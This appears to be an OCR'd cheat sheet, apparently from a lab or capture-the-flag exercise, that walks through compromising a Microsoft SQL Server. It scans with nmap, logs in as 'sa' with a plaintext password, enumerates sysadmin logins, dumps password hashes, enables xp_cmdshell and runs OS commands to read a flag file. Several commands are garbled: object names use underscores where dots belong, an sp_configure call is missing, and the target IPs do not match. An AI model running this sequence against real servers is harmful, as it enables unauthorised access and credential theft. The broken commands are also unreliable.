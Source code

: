 Running nmap ms-sql-info script to get more information about the target SQL Server
`nmap --script ms-sql-info -p1433 10.2.4.6`
Connecting to target MSSQL Server using MSSQL-CLI python utility
`python3 -m mssqlcli.main -S 10.5.26.124 -U sa -P sweetness`
Executing MSSQL query 
>Getting SQL Server version details
>master>`select @@version;`
>Checking target server hostname
>master>`select host_name();`
>Extracting SQL logins
>master>`select loginname from syslogins where sysadmin = 1;`
>Check all the availabel databases
>master>`select name from sys_databases;`
>Checking all sys users
>master>`select * from sysusers;`
>Extracting SQL users hashes
>master>`select name,password_hash from master_sys_sql_logins;`
>Checking if xp_cmdshell is enabled or not
>master>`select name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys_configurations WHERE name = 'xp_cmdshell';`
>Enabling xp_cmdshell
>master>`EXEC sp_configure 'show advanced options', 1;RECONFIGURE 'xp_cmdshell', 1;RECONFIGURE`
>Execute sys command using xp_cmdshell
>master>`EXEC xp_cmdshell "whoami";`
>Reading a file into the system
>master>`EXEC xp_cmdshell "echo %cd%";`
>master>`EXEC xp_cmdshell "dir C:\";`
>master>`EXEC xp_cmdshell "type C:\flag.txt";`
